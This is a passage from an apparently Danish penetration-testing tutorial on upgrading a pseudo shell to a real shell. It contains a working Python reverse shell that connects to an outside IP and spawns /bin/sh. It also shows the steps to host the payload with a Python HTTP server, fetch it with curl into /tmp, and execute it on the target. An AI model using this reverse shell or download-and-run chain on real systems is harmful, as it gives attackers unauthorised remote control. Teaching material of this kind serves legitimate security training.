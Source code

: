 ```python
import socket,os,pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("77.210.13.4",13337))

os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

pty.spawn("/bin/sh")
```

Vi kan derefter gemme dette i en fil på vores host og starte en simple http server via. python fra den samme folder:

På din maskine:
```python3 -m http.server```

På server via. pseudo shell:
Nu kan vi bruge vores pseudo shell og curl til at hente payloaden på serveren:

```curl http://77.210.13.4:8000/stage2.py -o /tmp/stage2.py```

Og derefter køre den:

```python /tmp/stage2.py```

![enumerate_foothold3](enumerate_foothold3.png)

Derved har vi nu kigget på 3 metoder at opgradere sin shell fra en pseudo shell til en rigtig shell :-)










